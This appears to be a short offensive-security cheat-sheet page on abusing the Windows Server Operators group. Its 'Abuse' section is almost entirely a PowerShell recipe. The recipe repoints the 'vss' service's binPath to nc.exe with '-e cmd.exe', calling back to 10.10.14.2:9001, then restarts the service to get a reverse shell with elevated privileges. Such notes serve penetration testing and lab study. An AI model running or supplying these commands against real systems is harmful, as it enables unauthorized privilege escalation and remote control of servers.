 # Server Operators

More info found [here](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#server-operators)

## Abuse

```powershell
# Find a service to hijack (evil-winrm)
services

# Set path to nc.exe
sc.exe config vss binPath="C:\ProgramData\System\nc.exe -e cmd.exe 10.10.14.2 9001"

# Restart service
sc.exe stop vss
sc.exe start vss
```
